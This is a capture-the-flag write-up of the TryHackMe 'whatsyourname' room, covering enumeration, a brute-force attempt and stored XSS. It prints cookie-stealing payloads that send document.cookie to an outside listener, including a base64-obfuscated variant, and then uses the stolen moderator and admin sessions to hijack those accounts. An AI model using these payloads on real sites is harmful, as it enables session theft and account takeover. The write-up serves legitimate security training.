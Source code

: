 # 1) Summary
- link : https://tryhackme.com/room/whatsyourname
- skills required: XSS, CSRF, cyberchef, enumerations

# 2) Write-up to get the flag.
- started with nmap for ports discovery. Ports opened for business were 22, 80, 8081.
  <img width="549" height="226" alt="Screenshot from 2025-09-29 18-15-29" src="https://github.com/user-attachments/assets/ad54f7ec-18a5-42d9-a807-e68823b08f3e" />
- Further enumeration was done to find more details on specific ports. Attention was required on httponly flag not set. 
  <img width="760" height="586" alt="image" src="https://github.com/user-attachments/assets/e8226648-383e-44ea-ade9-8cbb6b6e7ab0" />
- It was further confirmed: HttpOnly = false via inspecting cookies in the browser.
- In the registration page, the hint is "Your details will be reviewed by the site moderator". Since HttpOnly = false, if I can find an entry point for XSS I can use the point to steal cookie from another active login session.

### What is the HttpOnly Flag?
The HttpOnly flag is a security attribute set by the server when it sends a cookie to your browser. Its primary purpose is to mitigate the risk of client-side scripts accessing protected cookies.
- How it Works: When a cookie is set with the HttpOnly flag, the browser prevents client-side scripts (like JavaScript) from reading or modifying it through the document.cookie API.
- Its Purpose: It is a critical defense against Cross-Site Scripting (XSS) attacks. Even if an attacker successfully executes malicious JavaScript on a page, they cannot directly steal an HttpOnly cookie

### brute force password.
It also also found that 'moderator' is an existing username. So I proceed to use hydra to brute force password althought at the end it was not successfuly (I stopped it after I gained the access as the moderator).
<img width="1356" height="709" alt="Screenshot from 2025-09-29 20-46-16" src="https://github.com/user-attachments/assets/405b17da-5421-47f4-a2c1-78213e719f1f" />

### back to XSS to exploit HttpOnly=false
- the payload used was `<img src=x onerror="new Image().src='http://10.11.139.184:4444/?='+document.cookie;">`
- It was found the the length was too long for the username field and email field. Luckly it was ok for the name field:
- <img width="1356" height="709" alt="Screenshot from 2025-09-29 20-51-44" src="https://github.com/user-attachments/assets/87d09e4f-c5ce-45ed-bfb9-08dbe51fedbe" />
- I thought it didn't work. It took the moderator more than 30sec to steal the cookie
- <img width="1916" height="940" alt="Screenshot from 2025-09-29 20-54-29" src="https://github.com/user-attachments/assets/aa6e69a9-5f21-4db2-9454-535e2e0638a0" />
- Then I would need to visit login.worldwap.thm to login once registration was successful. it was a blank page. By inspecting the code I believe the landing page should be login.php.
- <img width="1366" height="747" alt="Screenshot from 2025-09-29 20-56-48" src="https://github.com/user-attachments/assets/b1c9b7a3-cbf3-4c3e-ad69-7ac3a1c41e14" />
- <img width="1360" height="869" alt="image" src="https://github.com/user-attachments/assets/18b50881-f251-4ff8-b4ab-baf11bf3081f" />
- login successfully and got the first flag (put the cookie there and refresh the browser).
- <img width="1360" height="869" alt="image" src="https://github.com/user-attachments/assets/746c6906-2035-4183-90c3-602285bf55aa" />
- In http://login.worldwap.thm/profile.php, there weren't many place for testing XSS. It was obvious the chatbot was where the script needed to go.
- <img width="1360" height="869" alt="image" src="https://github.com/user-attachments/assets/ea47b222-ac01-4c1c-8d0d-ca101e66ffda" />
- Payload `<img src=x onerror="new Image().src='http://10.11.139.184:4445/?='+document.cookie;">` was tried but didn't work.
- Then diffenerent encoding methods were tried and base64 worked. The new payload was `<img src=x onerror="eval(atob('bmV3IEltYWdlKCkuc3JjPSdodHRwOi8vMTAuMTEuMTM5LjE4NDo0NDQ1Lz89Jytkb2N1bWVudC5jb29raWU7'))">`
- <img width="1910" height="967" alt="Screenshot from 2025-09-29 21-36-32" src="https://github.com/user-attachments/assets/25a13d56-f6d1-4890-b589-2bd62751f658" />
- It worked and admin flag retrieved - logout, and log back in by copied & pasted the new admin cookie to the login page.
- <img width="1910" height="967" alt="image" src="https://github.com/user-attachments/assets/75d68e1d-fad7-4706-8a65-47108ead3a90" />